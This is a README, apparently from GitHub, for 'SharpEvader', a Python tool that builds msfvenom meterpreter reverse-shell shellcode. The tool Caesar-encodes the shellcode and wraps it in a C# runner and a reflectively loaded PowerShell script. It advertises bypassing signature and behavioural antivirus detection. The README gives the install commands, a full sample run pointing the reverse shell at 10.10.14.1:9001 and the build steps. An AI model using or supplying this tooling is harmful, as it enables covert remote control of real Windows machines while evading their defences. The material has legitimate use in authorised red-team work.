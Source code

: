 # 🤔 SharpEvader
#### This is a python script which automatically generates meterpreter `tcp`/`https` shellcode and caeser encodes it and slaps some Behavioural detection in a c# Project for you to build and run


# ✨ Features
- Automatically generate's `windows/x64/meterpreter/reverse_https` or `windows/x64/meterpreter/reverse_tcp` shellcode by borrowing `msfvenom`(What more do you expect, Write an `msfvenom` clone from scratch ??) from your linux host.
- Applies some magic sauce inorder to bypass the Signature Based detection.(The magic sauce is absolutely not Caeser Cipher).
- Generate's a C# Project with the encoded shellcode and some more spells to bypass Behavioural Based Detection.
- Quick, Order your Reverse Shell now Available at an easy installment of $999 each :)
- Powershell Script to generate a reflection ps1 script with the C# executable embedded inside it[Tested as of 28th August 2022].
- Does not use Java !!!
- Owner's or Contributor's of this repo does not take responsibiltes of any damages caused using it or with it, any illegal usage is highly discouraged.


# ⚙️ Requirements
- Python3.7+
- msfvenom or Metasploit Framework
- mono-mcs C# compiler package
- Powershell on Linux[Optional]

```bash
sudo apt update && sudo apt install python3 metasploit-framework mono-mcs powershell
# Metasploit-framework & Powershell are defaultly available on Kali & hopefully parrot(If your distro doesn't have it then its your headache)
```

# 🤸 Usage

## [Automatic Method]Run SharpEvader.py which would give you compiled exe and ps1 script inside the output folder
```bash
~/SharpEvader > python3 sharpevader.py

 ____  _                      _____                _           
/ ___|| |__   __ _ _ __ _ __ | ____|_   ____ _  __| | ___ _ __ 
\___ \| '_ \ / _` | '__| '_ \|  _| \ \ / / _` |/ _` |/ _ \ '__|
 ___) | | | | (_| | |  | |_) | |___ \ V / (_| | (_| |  __/ |   
|____/|_| |_|\__,_|_|  | .__/|_____| \_/ \__,_|\__,_|\___|_|   
                       |_|                                     
	
LHOST: 10.10.14.1
LPORT: 9001
PAYLOAD PROTO(tcp/https): tcp
PAYLOAD TYPE(exe[Default]/dll): exe
[*] Using LHOST as 10.10.14.1, LPORT as 9001 and PAYLOAD as windows/x64/meterpreter/reverse_tcp
[*] Generating msfvenom shellcode...
[+] MSFVenom Shellcode generation successful
[+] Encoded shellcode with caeser cipher with +7 as Key
[*] Deleting the msf_shellcode.hex file as no one wants it anymore
[*] Baking the fresh Shellcode into a C# project for compiling
[+] Your C# shellcode runner is baked successfully, and it smells nice !!!
[+] C# Compiler found, Time for some frosting on the cake ^_^
[+] Your cake has been frosted successfully and named output/10.10.14.1_9001_tcp_exe/rev.exe
[+] Powershell Found, Let\'s Box up your frosted cake...
[+] Boxed it up and named output/10.10.14.1_9001_tcp_exe/rev.ps1
[+] Happy Evasion using 10.10.14.1_9001_tcp_exe!!!

~/SharpEvader/output/10.10.14.1_9001_tcp_exe >  ls -l
total 16
drwxr-xr-x 3 root root 4096 Aug 28 00:50 csharp
-rwxr-xr-x 1 root root 5120 Aug 28 00:50 rev.exe
-rw-r--r-- 1 root root 3275 Aug 28 00:50 rev.ps1

```

---

## [Manual Method]The C# project directory would be placed inside the output directory with name [[LHOST]_[LPORT]_[PAYLOADPROTO]_[PAYLOADTYPE]]/csharp/
```bash
~/SharpEvader/output/10.10.14.1_9001_tcp/csharp > ls -l
total 24
-rwxr-xr-x 1 root root  189 Aug  9 17:26 App.config
-rwxr-xr-x 1 root root 4135 Aug  9 17:26 Program.cs
drwxr-xr-x 2 root root 4096 Aug  9 17:26 Properties
-rwxr-xr-x 1 root root 3189 Aug  9 17:26 rev.csproj
-rwxr-xr-x 1 root root  892 Aug  9 17:26 rev.sln
```

## To be done on Windows
- Transfer the `[[LHOST]_[LPORT]_[PAYLOADPROTO]_[PAYLOADTYPE]]/csharp/` from the output directory and launch `rev.sln` using `Visual Studio`.
- Build the Project using the `Release` and `x64` build configuration.
- Voila !!! The built C# executable would be available in the `[[LHOST]_[LPORT]_[PAYLOADPROTO]_[PAYLOADTYPE]]/csharp/bin/x64/Release/rev.exe` or `rev.dll`

---

## [Optional] Can be done in Windows/Linux with powershell available
- Execute the `reflection_pwsh_gen.ps1` supplying the `-File` argument as the absolute path to the `rev.exe` or `rev.dll`
- This would generate a `rev.ps1` which would be consist the C# `exe` or `dll` embedded into a ps1 script which would be reflectively loaded in the memory.

---

```bash
~/SharpEvader > pwsh reflection_pwsh_gen.ps1 -File ~/SharpEvader/output/10.10.14.1_9001_tcp_exe/rev.exe
[+] Written the C# exe Embedded Reflection Reverse Shell into rev.ps1
```


# ‼️ Disclaimer

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.